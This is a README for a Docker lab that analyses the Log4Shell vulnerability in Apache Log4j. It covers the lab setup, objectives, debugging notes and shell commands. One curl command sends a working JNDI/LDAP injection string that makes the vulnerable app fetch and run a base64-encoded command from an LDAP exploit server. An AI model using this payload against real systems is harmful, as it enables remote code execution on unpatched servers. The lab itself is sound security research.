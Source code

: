 # Apache Log4j CVE-2021-44228

## 0verview

AKA: *Log4Shell*

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Caused and categorised by "Improper Input Validation"

Apache Log4j library [download](https://archive.apache.org/dist/logging/log4j/)

Vulnerable version: [apache-log4j-2.14.1](https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip)

Fixed version: [apache-log4j-2.15.0](https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip)

Tutorial: [https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/)

## Objectives

1. Analyse Java execution flow within vulnerable application code and log4j library
1. Analyse Network traffic associated with relevant nodes (Application & LDAP Server)
1. Analyse LDAP exploit server and determine how exploit is deployed/architected

## Methodology

### Lab implementation

Docker will be used to provide a sand-boxed environment consisting of the following nodes:

- Vulnerable Application
- LDAP exploit server
- Wireshark instance (optional)
- Docker network

Docker Compose will be used to aid operation and testing.

Wireshark can either be run as a Docker instance (Linux Server Wireshark) or `tcpdump` can be utilised to capture packets and produce a pcap file for later analysis in Wireshark.

__Vulnerable Application__

For stepping through the code create a basic Java application using `log4j` for logging.

Use VSCode with remoting feature to connect to the running Container and perform runtime debugging.

__LDAP Server exploit__

Use Dockerised LDAP exploit server from [Cygenta - how to build your own demo](https://www.cygenta.co.uk/post/your-own-log4shell-demo).

__Wireshark__

Use a variation of Docker configuration found here: [https://docs.linuxserver.io/images/docker-wireshark](https://docs.linuxserver.io/images/docker-wireshark)

__Commands__

```shell
# start all services
$> docker compose up

# stop all services
$> docker compose down

# clean up all Docker artifacts (including stop all services)
$> ./scripts/cleanup.sh

# test the Docker services and network
$> ./scripts/test.sh

# test if exploit has been successful
$> docker compose exec vulnapp ls -l /tmp

# run interactive shell on tools image container
$> docker run --name tools --network example_log4j -it --privileged tools

# inside tools container
$> curl vulnapp:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'

# install tcpdump on service container (Alpine)
$> docker compose exec <srvcname> apk add tcpdump

# extract log from contanier
$> docker compose cp <srvcname>:/tmp/dump.log .

# get interactive shell on srvc container
$> docker compose exec <srvcname> sh

# run tcpdump in container
$> tcpdump -i eth0 -w /tmp/dump.cap &

# ldap search
$> ldapsearch -p 1389 -h log4jldapserver -x -b "Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw=="
```

## Notes

### Log4j Lookup Feature

[Apache log4j lookups docs](https://logging.apache.org/log4j/2.x/manual/lookups.html)

### Troubleshooting

- Keep getting Error in VSCode: Java server has crashed 5 times in the last 3 minutes
> Solution: F1 -> Java: Clean the Java Language Server Workspace -> Restart & Delete

## Debugging notes

PatternLayout.toSerializable
ln: 344
iteration 8 goes bang!!!

